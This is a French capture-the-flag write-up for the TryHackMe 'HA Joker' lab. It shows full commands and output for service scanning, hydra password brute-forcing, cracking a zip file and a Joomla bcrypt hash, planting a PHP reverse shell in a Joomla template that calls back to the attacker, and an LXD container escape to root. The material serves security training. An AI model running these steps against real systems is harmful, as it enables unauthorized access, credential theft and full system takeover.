






## HA Joker CTF ##

# Task 1 HA Joker CTF #

**Enumerate services on target machine.**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.150.248 joker.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A joker.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-20 14:38 CEST
Nmap scan report for joker.thm (10.10.150.248)
Host is up (0.035s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ad:20:1f:f4:33:1b:00:70:b3:85:cb:87:00:c4:f4:f7 (RSA)
|   256 1b:f9:a8:ec:fd:35:ec:fb:04:d5:ee:2a:a1:7a:4f:78 (ECDSA)
|_  256 dc:d7:dd:6e:f6:71:1f:8c:2c:2c:a1:34:6d:29:99:20 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HA: Joker
8080/tcp open  http    Apache httpd 2.4.29
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Please enter the password.
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 401 Unauthorized
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/20%OT=22%CT=1%CU=36721%PV=Y%DS=2%DC=T%G=Y%TM=611FA27
OS:0%P=x86_64-pc-linux-gnu)SEQ(SP=FD%GCD=1%ISR=106%TI=Z%CI=I%II=I%TS=A)OPS(
OS:O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11
OS:NW6%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(
OS:R=Y%DF=Y%T=40%W=6903%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: Host: localhost; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 993/tcp)
HOP RTT      ADDRESS
1   32.79 ms 10.9.0.1
2   32.86 ms joker.thm (10.10.150.248)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.71 seconds
```

Les services sont : 
SSH sur le port 22.   
HTTP sur le port 80 et 8080.    

**What version of Apache is it?**  

D'après nmap la version d'apache est  : 2.4.29   

**What port on this machine not need to be authenticated by user and password?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://joker.thm:8080
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at joker.thm Port 8080</address>
```

On voit que sur le port 8080 on nous demande un mot de passe.   
Donc le port qui ne demande pas de mot de passe est le port 80.   

**There is a file on this port that seems to be secret, what is it?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://joker.thm:80  -w /usr/share/dirb/wordlists/common.txt -x txt,php -q 
/.hta                 (Status: 403) [Size: 274]
/.hta.php             (Status: 403) [Size: 274]
/.hta.txt             (Status: 403) [Size: 274]
/.htaccess.txt        (Status: 403) [Size: 274]
/.htpasswd            (Status: 403) [Size: 274]
/.htaccess.php        (Status: 403) [Size: 274]
/.htaccess            (Status: 403) [Size: 274]
/.htpasswd.php        (Status: 403) [Size: 274]
/.htpasswd.txt        (Status: 403) [Size: 274]
/css                  (Status: 301) [Size: 304] [--> http://joker.thm/css/]
/img                  (Status: 301) [Size: 304] [--> http://joker.thm/img/]
/index.html           (Status: 200) [Size: 5954]                           
/phpinfo.php          (Status: 200) [Size: 94756]                          
/phpinfo.php          (Status: 200) [Size: 94756]                          
/secret.txt           (Status: 200) [Size: 320]                            
/server-status        (Status: 403) [Size: 274]                   
```

On voit un fichier secret.txt.    

Réponse : secret.txt   

There is another file which reveals information of the backend, what is it?

L'autre fichier qui permet d'avoir des information sur le site est : phpinfo.php    

**When reading the secret file, We find with a conversation that seems contains at least two users and some keywords that can be intersting, what user do you think it is?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://joker.thm/secret.txt
Batman hits Joker.
Joker: "Bats you may be a rock but you won't break me." (Laughs!)
Batman: "I will break you with this rock. You made a mistake now."
Joker: "This is one of your 100 poor jokes, when will you get a sense of humor bats! You are dumb as a rock."
Joker: "HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA! HA!"
```

Le nom intéressant est : joker.  

**What port on this machine need to be authenticated by Basic Authentication Mechanism?**



On voit que le port 8080 a besoin d'identification.   

Réponse port : 8080   

**At this point we have one user and a url that needs to be aunthenticated, brute force it to get the password, what is that password?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hydra -l joker -P /usr/share/wordlists/rockyou.txt  -f joker.thm -s 8080 http-get 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-20 15:10:03
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get://joker.thm:8080/
[8080][http-get] host: joker.thm   login: joker   password: hannah
[STATUS] attack finished for joker.thm (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-20 15:10:29
```

On brute forçant le mot de passe on trouve  : hannah 

**Yeah!! We got the user and password and we see a cms based blog. Now check for directories and files in this port. What directory looks like as admin directory?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -U joker -P hannah -u  http://joker.thm:8080/ -w /usr/share/dirb/wordlists/common.txt -q
/.hta                 (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/administrator        (Status: 301) [Size: 321] [--> http://joker.thm:8080/administrator/]
/bin                  (Status: 301) [Size: 311] [--> http://joker.thm:8080/bin/]          
/cache                (Status: 301) [Size: 313] [--> http://joker.thm:8080/cache/]        
/components           (Status: 301) [Size: 318] [--> http://joker.thm:8080/components/]   
/backup               (Status: 200) [Size: 12133560]                                      
/images               (Status: 301) [Size: 314] [--> http://joker.thm:8080/images/]       
/includes             (Status: 301) [Size: 316] [--> http://joker.thm:8080/includes/]     
/index.php            (Status: 200) [Size: 10937]                                         
/language             (Status: 301) [Size: 316] [--> http://joker.thm:8080/language/]     
/layouts              (Status: 301) [Size: 315] [--> http://joker.thm:8080/layouts/]      
/libraries            (Status: 301) [Size: 317] [--> http://joker.thm:8080/libraries/]    
/LICENSE              (Status: 200) [Size: 18092]                                         
/media                (Status: 301) [Size: 313] [--> http://joker.thm:8080/media/]        
/modules              (Status: 301) [Size: 315] [--> http://joker.thm:8080/modules/]      
/plugins              (Status: 301) [Size: 315] [--> http://joker.thm:8080/plugins/]      
/README               (Status: 200) [Size: 4494]                                          
/robots               (Status: 200) [Size: 836]                                           
/robots.txt           (Status: 200) [Size: 836]                                           
/server-status        (Status: 403) [Size: 276]                                           
/templates            (Status: 301) [Size: 317] [--> http://joker.thm:8080/templates/]    
/tmp                  (Status: 301) [Size: 311] [--> http://joker.thm:8080/tmp/]          
/web.config           (Status: 200) [Size: 1690]                    
```

Le répertoire de l'administrateur est : \/administrator\/    

**We need access to the administration of the site in order to get a shell, there is a backup file, What is this file?**

```bash
im@kali:~/Bureau/tryhackme/write-up$ wget --http-user=joker --http-password=hannah http://joker.thm:8080/backup -nv
Authentification sélectionnée : Basic realm=" Please enter the password."
2021-08-20 15:38:15 URL:http://joker.thm:8080/backup [12133560/12133560] -> "backup" [1]
tim@kali:~/Bureau/tryhackme/write-up$ file backup 
backup: Zip archive data, at least v1.0 to extract
tim@kali:~/Bureau/tryhackme/write-up$ mv backup backup.zip
```

On récupère le fichier de backup.  
Le fichier est :  backup.zip     

**We have the backup file and now we should look for some information, for example database, configuration files, etc ... But the backup file seems to be encrypted. What is the password?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ zip2john backup.zip > hash 2>/dev/null

tim@kali:~/Bureau/tryhackme/write-up$ john hash -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hannah           (backup.zip)
1g 0:00:00:00 DONE (2021-08-20 15:42) 33.33g/s 273066p/s 273066c/s 273066C/s 123456..whitetiger
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

En cassant le mot de passe on le trouve.   

Le mot de passe est :  hannah

**Remember that... We need access to the administration of the site... Blah blah blah. In our new discovery we see some files that have compromising information, maybe db? ok what if we do a restoration of the database! Some tables must have something like user_table! What is the super duper user?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ unzip -P hannah -q backup.zip    
tim@kali:~/Bureau/tryhackme/write-up/db$
tim@kali:~/Bureau/tryhackme/write-up/db$ ls -al
total 260
drwxr-xr-x 2 tim tim   4096 25 oct.   2019 .
drwxr-xr-x 6 tim tim   4096 20 août  15:46 ..
-rw-r--r-- 1 tim tim 257091 25 oct.   2019 joomladb.sql

tim@kali:~/Bureau/tryhackme/write-up/db$ cat joomladb.sql | grep -i "super duper user"
INSERT INTO `cc1gr_users` VALUES (547,'Super Duper User','admin','admin@example.com','$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG',0,1,'2019-10-08 12:00:15','2019-10-25 15:20:02','0','{\"admin_style\":\"\",\"admin_language\":\"\",\"language\":\"\",\"editor\":\"\",\"helpsite\":\"\",\"timezone\":\"\"}','0000-00-00 00:00:00',0,'','',0);
```

On repérant la chaîne super duper user on voit qu'il est : admin

Réponse : admin   

**Super Duper User! What is the password?**

Le début du hash $2y$ nous indique que c'est du bcrypt.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo '$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG' > hash
tim@kali:~/Bureau/tryhackme/write-up$ hashcat  --help | grep bcryp
   3200 | bcrypt $2*$, Blowfish (Unix)                     | Operating System
tim@kali:~/Bureau/tryhackme/write-up$ hashcat -a 0 -m 3200 ./hash /usr/share/wordlists/rockyou.txt --quiet
$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG:abcd1234
```

On récupère le hash.   
On le casse avec hashcat. 
On trouve le mot de passe.   

Le mot de passe est : abcd1234   

**At this point, you should be upload a reverse-shell in order to gain shell access. What is the owner of this session?**

  

On s'identifie avec :   
Nom : admin  
Mot de passe : abcd1234  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute sur le port, pour se connecter sur le reverse shell.    



Allez dans Extension-\>Templates-\>Templates     



Allez dans Templates puis dans protostar.    

Préparer le reverse.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget  https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php -nv
2021-08-20 16:41:48 URL:https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php [5491/5491] -> "php-reverse-shell.php" [1]
tim@kali:~/Bureau/tryhackme/write-up$ sed -i 's/127.0.0.1/10.9.228.66/g' php-reverse-shell.php 
```

On télécharge un reverse shell.    
On le configure.   



On copie le reverse shell dans index.php.   

  

On exécute le reverse-shell.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.241.226] 47352
Linux ubuntu 4.15.0-55-generic #60-Ubuntu SMP Tue Jul 2 18:22:20 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 07:48:02 up 10 min,  0 users,  load average: 0.00, 0.31, 0.37
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
```

On obtient un shell.   
On voit que le propriétaire de la session est : www-data    

**This user belongs to a group that differs on your own group, What is this group?**

Le groupe qui diffère de www-data est : lxd  

**Spawn a tty shell.**

```bash
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@ubuntu:/$ 
```

On stabilise le shell.   

**In this question you should be do a basic research on how linux containers (LXD) work, it has a small online tutorial. Googling "lxd try it online".**

Il y une méthode pur s'échapper du conteneur et obtenir un shell root.   

**The idea here is to mount the root of the OS file system on the container, this should give us access to the root directory. Create the container with the privilege true and mount the root file system on /mnt in order to gain access to /root directory on host machine.**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ git clone https://github.com/timruff/lxd-alpine-builder
Clonage dans 'lxd-alpine-builder'...
remote: Enumerating objects: 35, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 35 (delta 2), reused 2 (delta 0), pack-reused 27
Réception d'objets: 100% (35/35), 21.69 Kio | 419.00 Kio/s, fait.
Résolution des deltas: 100% (8/8), fait.
tim@kali:~/Bureau/tryhackme/write-up$ cd lxd-alpine-builder/

tim@kali:~/Bureau/tryhackme/write-up/lxd-alpine-builder$ sudo ./build-alpine 
[sudo] Mot de passe de tim : 
Determining the latest release... v3.14
Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.14/main/x86_64
...

tim@kali:~/Bureau/tryhackme/write-up/lxd-alpine-builder$ ls
alpine-v3.14-x86_64-20210820_1703.tar.gz  build-alpine  LICENSE  README.md

tim@kali:~/Bureau/tryhackme/write-up/lxd-alpine-builder$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

--------------------------------------------------------------------------------

www-data@ubuntu:/$ cd /tmp
cd /tmp
www-data@ubuntu:/tmp$ wget http://10.9.228.66:8000/alpine-v3.14-x86_64-20210820_1703.tar.gz -nv
<6:8000/alpine-v3.14-x86_64-20210820_1703.tar.gz -nv
2021-08-20 08:07:32 URL:http://10.9.228.66:8000/alpine-v3.14-x86_64-20210820_1703.tar.gz [3245253/3245253] -> "alpine-v3.14-x86_64-20210820_1703.tar.gz" [1]
```

On récupère les outils pour faire une image alpine.   
On la construit.   
On met un serveur http ou télécharger l'image sur la machine cible.

On télécharge l'image.   

```bash
www-data@ubuntu:/tmp$ lxc image import ./alpine-v3.14-x86_64-20210820_1703.tar.gz --alias myimage
www-data@ubuntu:/tmp$ lxc image list

lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| myimage | 793f41aab6a0 | no     | alpine v3.14 (20210820_17:03) | x86_64 | 3.09MB | Aug 20, 2021 at 3:17pm (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+

www-data@ubuntu:/tmp$ lxc init myimage ignite -c security.privileged=true
lxc init myimage ignite -c security.privileged=true
Creating ignite

www-data@ubuntu:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
<ydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite

www-data@ubuntu:/tmp$ lxc start ignite
lxc start ignite

www-data@ubuntu:/tmp$ lxc exec ignite /bin/sh
lxc exec ignite /bin/sh
lxc exec ignite /bin/sh

~ # ^[[52;5Rid
id
uid=0(root) gid=0(root)

```

On exploit l'exploit et on s'évade du conteneur avec les droits root.  

**What is the name of the file in the /root directory?**

```bash
/ # cd /mnt/root/root
cd /mnt/root/root
/mnt/root/root # ls       
ls
final.txt
/mnt/root/root # cat final.txt
cat final.txt

     ██╗ ██████╗ ██╗  ██╗███████╗██████╗ 
     ██║██╔═══██╗██║ ██╔╝██╔════╝██╔══██╗
     ██║██║   ██║█████╔╝ █████╗  ██████╔╝
██   ██║██║   ██║██╔═██╗ ██╔══╝  ██╔══██╗
╚█████╔╝╚██████╔╝██║  ██╗███████╗██║  ██║
 ╚════╝  ╚═════╝ ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝
                                         
!! Congrats you have finished this task !!		
							
Contact us here:						
								
Hacking Articles : https://twitter.com/rajchandel/		
Aarti Singh: https://in.linkedin.com/in/aarti-singh-353698114								
								
+-+-+-+-+-+ +-+-+-+-+-+-+-+					
 |E|n|j|o|y| |H|A|C|K|I|N|G|			
 +-+-+-+-+-+ +-+-+-+-+-+-+-+	
/mnt/root/root # ^[[52;18R
```

Le nom du fichier dans root est : final.txt   


